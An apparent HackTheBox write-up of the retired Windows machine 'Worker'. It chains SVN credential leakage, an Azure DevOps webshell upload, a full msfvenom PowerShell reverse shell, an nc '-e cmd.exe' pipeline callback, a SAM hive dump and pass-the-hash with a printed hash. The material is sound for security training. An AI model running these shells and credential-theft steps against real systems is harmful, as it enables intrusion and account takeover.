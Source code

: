 ```yaml
---
title: Worker Writeup [HTB]
tags: [HackTheBox, Windows]
image: /assets/images/worker/worker.png
published: true
banner: true
---
```


Worker is a Windows based machine that was active since August 15th of 2020 to January 30th of 2021, we will start this machine cloning a repository stored on Subversion, on this repository we will get a subdomain where we will find an instance of Azure Devops, also on the history of this repository we will get some valid credentials for Azure, the machine serves a lot of subdomains and we will be able to modify them throught Azure, so we will upload a web shell and then spawn a reverse shell, enumerating the machine we will find some credentials to a user with higher privileges, using this credentials we will be able to queue commands on Azure which runs as Authorithy\system finishing the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.203
nmap -sC -sV -p 5985,3690,80, -Pn -o scan.txt 10.10.10.203

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We only see three ports, a webpage on port 80, a Subversion server on port 3690 and WSMAN on port 5985, if we check the webpage we can't find anything interesting we clone the Subversion server, unlike Git we don't need the repository name to clone, there is a default repository that will be cloned, also unlike Git the repository will be cloned in our current directory it won't create a new one, so we have to create a directory before cloning it, to clone the repository we use the command `svn checkout svn://10.10.10.203:3690`, after running the command we get a directory called "dimension.worker.htb" and a .txt file.

![](/assets/images/worker/svn.png)

On moved.txt we find the next message.
```
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

We got another subdomain, if we add it to our hosts file and try to access to it we are prompted to insert some credentials.

![](/assets/images/worker/devopslogin.png)

We don't have any, so we go back to our cloned repository, just like Git we can check the history of the respository, to do it we run `svn log`.

![](/assets/images/worker/svnlog.png)

We got a username "nathen" but we still need to get the password, so we check the commits searching for it, and we found it on the second one, wendel98. `svn diff -r 2`.

![](/assets/images/worker/svndiff.png)

Using these credentials we can access to devops.worker.htb, and we found that Azure Devops is running there.

![](/assets/images/worker/azuredevops.png)

# [](#header-1)Gaining Access

Exploring throught the Web Application we find some git repositories stored there.

![](/assets/images/worker/azuregit.png)

If we enumerate the subdomain "dimension.worker.htb" we will find a lot of other subdomains inside the machine, well those repositories belongs to those subdomains, so we can upload a webshell to any page. We can't push directly into the repository, but we can make a pull request, so we have to do a couple of steps, we can do this on any repository, first we create another branch, we can push directly into this branch, so we click on "upload file" and select our webshell (on parrot there is one available on /usr/share/webshells/aspx/cmdasp.aspx), then we make the pull request for the change and select a work item (if you don't do it you won't be able to merge to the master branch), you can see which work items are available on Boards > Work Items. Finally we aprove the request a merge to the master branch, on this case the shell was named "subte.aspx".

![](/assets/images/worker/shelluploaded.png)

Now we can go "http://alpha.worker.htb/subte.aspx" (we go there because we modified the alpha repository, if we had modified another repository we would had to go the corresponding subdomain), there we will find our webshell.

![](/assets/images/worker/webshell.png)

There is a running task that cleans everything after a short amount of time, so we have to move quickly if we don't want to do everything again, so we generate a reverse shell command using msfvenom: `msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.15.120 LPORT=54321`, we get the next command (please notice I separated the command in several lines so it gets showed here, msfvenom generates a one liner).

```powershell
powershell -w hidden -nop -c $a='10.10.15.120';$b=54321;$c=New-Object system.net.sockets.tcpclient;
$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object 
System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;
$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.
RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.
Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.
BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, 
$null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if 
($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.
Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, 
$null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead
($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, 
$eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if 
($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write
($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.
SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne 
$null) {        break;    }}
```

We start our listener with `rlwrap nc -lvp 54321`, paste the reverse shell command on the webshell and we will get a reverse shell.

![](/assets/images/worker/shell1.png)

We run winpeas and find out that there is another drive, we can get the available drives through WMI, `wmic localdisk get name`.

![](/assets/images/worker/wmic.png)

After searching on W: drive for a while we find a file called "passwd" under  "W:\svnrepos\www\conf\", so we retrieve it a get a lot of credentials.

![](/assets/images/worker/passwd.png)

There are another two users on the machine "robisl" and "restorer", on the file we get the password of "robisl", "wolves11", we can use evil-winrm to get a shell as him and get "user.txt".

![](/assets/images/worker/shell2.png)

# [](#header-1)Privilege Escalation

When I found out that Azure Devops was running on the machine I searched for a way of getting code execution, here is a small [example](https://docs.microsoft.com/en-us/azure/devops/pipelines/tasks/utility/batch-script?view=azure-devops) on microsoft's page, since we didn't have permissions to do it we had to go with the webshell, but with this new account we can try it again, so we login as robisl. Then using our shell we upload nc on a directory that we created, "C:\Users\robisl\Links\empty", then we have to create two files to upload to the git repository, nothing.bat.

```
C:\Users\robisl\Links\empty\nc.exe 10.10.15.120 4433 -e cmd.exe
```

And rev.yaml.

```yaml
steps:

- task: BatchScript@1

  displayName: 'Run script nothing.bat'

  inputs:

    filename: nothing.bat
```

Now we create a new branch on the repository, and upload there the two files, "rev.yaml" and "nothing.bat", there is no need to merge them to the master branch, now we go to pipelines and create a new one, we click on "Use the classic editor", on the next step we have to select the branch where we uploaded the files, on this case "hithere". 

![](/assets/images/worker/pipebranch.png)

Then we select "YAML", now we select an agent pool and our yaml file. 

![](/assets/images/worker/pipequeue.png)

With that we save and queue the file, after waiting for a while we will get a shell as authority\system.

![](/assets/images/worker/shell3.png)

But there is a problem, this shell won't last to long, it is killed after a short time, so we have to do something to keep access, so on this case we will dump the sam and system files, to do that we use the command `reg SAVE HKLM\SAM C:\Users\robisl\Links\empty\sam`, the same with system file, we saved them on a directory where we have access with "robisl", so we can download it with evil-winrm, once we have download them we use secretsdump to get the hashes, `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local`

![](/assets/images/worker/secretsdump.png)

Now that we have the NT hash of administrator we can perfom a pass the hash to get access as him on the machine, retrieve root.txt and finish with the box, `evil-winrm -i 10.10.10.203 -u Administrator -H ea60b1a1d2e4ae93765e43aef4442318`.

![](/assets/images/worker/shell4.png)